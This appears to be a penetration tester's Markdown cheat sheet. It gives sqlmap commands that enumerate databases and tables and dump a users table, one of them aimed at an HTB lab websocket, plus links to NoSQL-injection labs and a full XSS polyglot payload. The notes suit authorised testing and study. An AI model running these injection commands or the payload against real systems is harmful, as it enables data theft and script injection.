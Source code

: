 ## sqlmap
### Basic Example
```shell
sqlmap -r req.txt --dbs --batch --threads 5
```
`--dbs`: get database list.
`--technique=B`: Boolean-based blind SQL Injection

The type for techniques is described:
https://github.com/sqlmapproject/sqlmap/wiki/Techniques

For websocket, sqlmap can inject SQL logic:
```shell
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --dbs --threads 10 -
level 5 --risk 3 --batch
```
`--dbs`: enumerate database list

### second request
After sending the tampered request, send the second request to check the response.
```shell
sqlmap -r req.txt --second-req=secreq.txt --dbs --threads 5 --tamper=space2comment --batch
```

'tamper' is explained below:
[Tamper](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap#tamper)

### enumerate tables
```shell
sqlmap -r req.txt --second-req=secreq.txt --threads 5 --tamper=space2comment --tables --batch -D database_name
```
`-D`: database name

### extract data from table
```shell
sqlmap -r req.txt --second-req=secreq.txt --threads 5 --tamper=space2comment -T users --dump
```
`-T`: table name

# NoSQL Injection
https://portswigger.net/web-security/nosql-injection

## Labs for detecting Syntax injection in MongoDB
https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-detection

## Labs for detecting operator injection 
https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-bypass-authentication

# XSS
## Polyglot
The following script includes multiple payloads to improve the test efficiency.
```shell
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```
https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot
